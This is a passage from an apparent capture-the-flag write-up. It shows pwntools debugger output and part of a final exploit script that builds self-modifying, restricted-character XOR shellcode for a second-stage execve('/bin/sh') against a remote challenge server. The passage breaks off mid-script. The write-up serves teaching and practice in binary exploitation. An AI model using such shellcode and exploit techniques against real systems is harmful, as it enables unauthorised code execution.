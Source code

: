 ```
[+] Starting local process './chal_patched': pid 22654
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chal_patched', '22654', '-x', '/tmp/pwnil9sxkp4.gdb']
[+] Waiting for debugger: Done
42
b'C CA J\x00C@\x00K L\x08\x00@G\x08@C\x00\x06\x06\x06 II@A\x00\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\xa1*\x14c'
[*] Switching to interactive mode
Data:
$ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$
```

## Second-Stage Shellcode for Shell

Now that I have a read in place, I can just send in whatever shellcode I want, and it will be executed as long as I include enough padding at the beginning to make the start of my actual code level with end of my read call (0x80 bytes of NOPs is about right!). As a result, I wrote a simple execve('/bin/sh') shellcode; I avoided pushes and pops since those seemed to be causing issues on my local machine. The full, final exploit script is:
```
from pwn import *

#target = process('./chal_patched') #, env={'LD_PRELOAD': 'libc_16bit.so.6'})

#pid = gdb.attach(target, "\nb *main+148\n set disassembly-flavor intel\ncontinue")
target = remote('0.cloud.chals.io', 23261)
context.clear(arch='amd64')
import base64

#Write in the first H
shellcode = asm('''
xor al, 0x33; 
xor dh, BYTE PTR [rax];
xor al, 0x33;
xor al, 0x31;
xor dh, BYTE PTR [rax];
xor al, 0x41;
xor BYTE PTR [rax], dh;
''')
#Write in the second H
shellcode += asm('''
xor al, 0x33;
xor al, 0x30;
xor BYTE PTR [rax], dh;
''')
#Writing the 0xff:
#Remember dh = 0x9 and al = 0x73 at this point.
shellcode += asm('''
xor al, 0x42;
xor dh, BYTE PTR [rax];
xor al, 0x43;
xor BYTE PTR [rax], bh;
xor BYTE PTR [rax], dh; 
''')
#Writing the 0xc0:
#Remember dh = 0x39 and al = 0x72 at this point.
shellcode += asm('''
xor al, 0x30;
xor al, 0x37;
xor BYTE PTR [rax], bh;
```